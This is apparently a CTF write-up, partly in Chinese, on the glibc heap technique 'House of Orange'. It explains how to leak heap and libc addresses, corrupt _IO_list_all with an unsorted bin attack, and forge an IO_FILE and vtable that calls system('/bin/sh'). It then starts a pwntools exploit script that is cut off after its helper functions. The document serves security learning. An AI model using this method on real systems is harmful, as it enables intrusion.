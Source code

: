 House of orange ( modify top chunk realize free, unsoted bin attack, small bin attack, IO_FILE)



## 思路

使用堆溢出修改top chunk大小(按照内存对其), 再申请一个大小大于top chunk size 的chunk,然而old top chunk就会被free掉,申请一个large bin大小的chunk,由于large bin申请成功后fd_nextsize和bk_nextsize会指向自身地址,可以泄漏heap地址,然而,申请的位置也恰好含有以前所剩的main_arena信息,所以直接打印即可泄漏libc. 后面就通过unsorted bin attack修改IO_list_all为main_arena + 0x58, 然后根据small bin管理机制,修改main_arena  + 0x58处的fake IO_FILE的chain的值指向伪造的IO_FILE,而使伪造堆块满足fp->`_mode` <= 0 && fp->`_IO_write_ptr` > fp->`_IO_write_base` 然后会调用vtable中的`__overflow` 函数,然而我们可以伪造再一个vtable,实现在调用`__overflow`的时候调用我们的函数,这里函数就改为system,传入参数需要在伪造的IO_FILE头部写入'/bin/sh\x00'然后在unsoretd bin被破坏之后再次申请时报错, 那触发异常就会打印错误信息,`malloc_printerr`是`malloc`中用来打印错误的函数，而 malloc_printerr`其实是调用` `__libc_message`函数之后调用`abort`函数，`abort`函数其中调用了`_IO_flush_all_lockp`, 然后根据`IO_list_all`中的值去遍历IO_FILE调用IO_FILE 的vtable中的 `__overflow`函数指针, 然后就可以调用system 传入 '/bin/sh\00' get shell



## 利用

### 准备

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile = 'houseoforange'
libFile = '/lib/x86_64-linux-gnu/libc.so.6'
#libFile = './libc64-2.19.so'

remoteIp = "0.0.0.0"
remotePort = 0

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x : io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('Your choice : ', str(1))
	sla('name :', str(size))
	sa('Name :', data)
	sla('Price of Orange:', str(16))
	sla('Orange:', '1');


```